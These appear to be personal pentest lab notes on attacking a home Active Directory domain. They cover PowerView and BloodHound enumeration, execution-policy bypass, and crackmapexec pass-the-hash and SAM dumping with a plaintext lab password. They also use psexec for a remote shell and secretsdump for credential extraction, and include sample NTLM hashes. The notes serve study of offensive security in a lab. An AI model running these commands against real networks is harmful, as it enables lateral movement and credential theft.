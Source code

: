 **1 Enum: Powerview & Enum**
**2 Enum: Bloodhound**
**3 Post Enum Attack**
**4 **

---

**Powerview.ps1:**
    Place powerview.ps1 on normal W10 machine
    
`powershell -ep bypass #bypass execution policy` 
cd to dir with powerview.ps1
`. .\Powerview.ps1 #runs shell - returns 0 output`

```
get-domainpolicy
(Get-DomainPolicy)."system access" #PW/ACC info
get-netdomain
get-netdomaincontroller
get-netuser | select cn
get-netcomputer -fulldata
get-computerinfo #HW info
get-netgroup -groupname *admin* # admin group names
get-netgroupmember -groupname "Domain Admins"
invoke-sharefinder #show all shares
get-netGPO | select displayname, whenchanged
```
---

**2. Bloodhound:**
```
apt install bloodhound`
sudo neo4j console
click link to open "localhost..."
default creds: neo4j:neo4j 
kali$ bloodhound && then login with new creds.
```

**Download Ingestor:**
    + on W10 download sharphound.ps1
    `> powershell -ep bypass`
    `> . .\sharphound.ps1`
    `> Invoke-BloodHound -collectionmethod All -Domain Carbon.local -Zipfilename File.zip`
    ![bloodhound.zip](Screenshots/create_bloodhound_zip.png)
    + move file.zip first onto baremetal Desktop then to kali VM.
    + import data :: enjoy
    
**Attacking AD - Post-Compromise Attacks:**
    - **Pass-The-Hash:**
        `apt install crackmapexec` 
        `crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1'` \
        ![PTH_propanol_oxytocinDC_ethyl](Screenshots/Pass_Hash_e_triage.png)
        `crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1' --sam` \
        ![PTH_sam](Screenshots/PTH_sam.png) \
        `psexec.py carbon.local/e.triage:'Password!1'@192.168.86.206`
        ![psexec_loud_shell](Screenshots/psexec_shell_noisy.png)
    - **Secretsdump.py:**
        `secretsdump.py carbon/e.triage:'Password!1'@192.168.86.206`
        ![secrets](Screenshots/secrets_dump.png)
    - **NTLM hash Example:**
            ```
        Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        Propylene Malz:1001:aad3b435b51404eeaad3b435b51404ee:3d888ed3f1196c792588c37ddfd32746:::
        
            ```
    ***You can pass NTLM hashes around but CANNOT pass NTLMv2 hashes***

[log4j_notice](https://community.neo4j.com/t/log4j-cve-mitigation-for-neo4j/48856)
[powerview.ps1](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView)
[hacktricks](https://book.hacktricks.xyz/windows/active-directory-methodology/bloodhound)
[bloodhoundGH](https://github.com/BloodHoundAD)
[sharphound.ps1](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)